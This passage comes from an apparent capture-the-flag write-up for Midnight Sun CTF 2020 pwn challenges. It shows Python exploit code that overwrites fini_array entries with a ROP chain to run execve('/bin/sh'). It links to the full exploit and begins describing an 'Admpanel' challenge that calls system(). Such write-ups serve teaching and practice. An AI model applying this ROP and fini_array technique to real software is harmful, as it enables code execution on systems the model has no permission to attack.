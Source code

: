 ```python
       0x00000000004ada60,   # 4 -> prsi
       0x0000000000000000,   # 5 -- 0 
       0x00000000006d44c0,   # 6 -> prdx
       0x0000000000000001,   # 7 -> 0
       0x00000000006d4440,   # 8 -> prax
       0x0000000000000001,   # 9 -> 0x3b
       0x00000000004b2680,   # 10-> syscall
       0x00000000004b25a0,   # 11-> /bin/sh
       ]

ropchain = [leave,
            0x0000000000400590,
            prdi,
            0x6d21a8, 
            prsi,
            0,
            prdx,
            0,
            prax,
            0x3b,
            syscall,
            u64('/bin/sh\0')]

for i in range(len(ropchain)):
    modify(fini_array+8*i,raw[i]^ropchain[i])
```

finally,  `SYS_execve('/bin/sh',0,0)` was executed

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/MidnightsunCTF2020/pwn/pwn6) 

see more about `fini_array` attack: [ROP-with-fini-array](http://taqini.space/2020/02/14/play-ROP-with-fini-array/)



## Admpanel (58pt)

### Description

> We found this legacy admin panel. Someone has patched it though :( 

### Attachment

[admpanel](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/MidnightsunCTF2020/pwn/admpanel/admpanel)

### Analysis

`system(&s)` was called in following code:

